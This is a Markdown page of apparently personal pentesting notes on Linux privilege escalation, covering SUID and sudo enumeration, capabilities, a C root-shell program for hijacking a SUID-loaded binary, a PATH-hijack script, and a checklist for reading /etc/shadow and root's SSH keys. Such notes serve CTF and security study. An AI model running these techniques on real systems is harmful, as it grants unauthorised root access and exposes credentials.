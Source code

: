 ```yaml
---
title: "Linux privilege escalation"
weight: 3
description: "Learn about various techniques and methods for privilege escalation on Linux system, including exploiting weak permissions, SUID, and more, with detailed notes and code examples."
---
```


# Linux privilege escalation

---

## Vulnerable program

Search scripts that execute programs. Search for **any vulnerable version**. One example: chkrootkit v0.49 (running as root)

```sh
ps aux
```

{{< hint style=notes >}}
**Note**: it's possible that another user (e.g., root) is running a cron job that executes a script periodically, which you may not be able to see. Therefore, it's crucial to identify and enumerate all potential programs that could be vulnerable.
{{< /hint >}}

---

## Weak Permissions

```sh
# World-writable files - E.g.: maybe you can edit shadow file
find / -not -type l -perm -o+w
```

---

## Sudo

```sh
sudo -l
# Search on https://gtfobins.github.io/ how to exploit
```

---

## SUID 

Find all SUID binaries:
```bash
find / -perm -4000 2>/dev/null
```

**Well-known binary**

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


**Custom binary**

Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`

Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime

```sh
strings binary_name
```

**(1) Method**

```sh
cp /bin/bash /path/to/loaded_binary
```

**(2) Method**

Delete the loaded binary and replace with a new one:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("/bin/bash -i"); 
    return 0;
}
```

```sh
# Compile
gcc binary.c -o <loaded_binary>
# Run the binary
./binary_name
```

---

## Capabilities

Since Linux version 2.2, the system has divided the traditional superuser privileges into distinct units called capabilities \[[🔗](https://man7.org/linux/man-pages/man7/capabilities.7.html)]. These capabilities can be independently enabled or disabled, offering more fine-grained control over process privileges. However, if misconfigured, they can be exploited by an attacker to escalate privileges and gain root access.

```sh
/usr/sbin/getcap -r / 2>/dev/null
```

Search for the binary on [GTFOBins](https://gtfobins.github.io) to identify potential exploitation techniques.


---

## Email

Analyze the email for any sensitive information:

```bash
ls /var/mail
```


---

## Other

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`
  * ```sh
    #!/bin/bash
    /bin/bash -p
    ```
  * `chmod +x /tmp/tail`
  * `export PATH=/tmp:$PATH`
  * `./<program_name>`
* Is there a database? Can I access to it?
  * Look at config file or source code of webpages connecting to db
* Look at the source code of the php,py,jsp ... files of the website
  * Especially login files. Any password?
* Writable authorized\_key folder?
  * generate new ssh keys
* Can I read some file with sudo?
  * /root/root.txt, /etc/shadow, /root/.ssh/id\_rsa
* Can I write a file in the root user directory?
  * generate ssh key with ssh-keygen and save it in the root user dir
* Kernel Exploits
* Linpeas.sh
* [GTFObins](https://gtfobins.github.io)
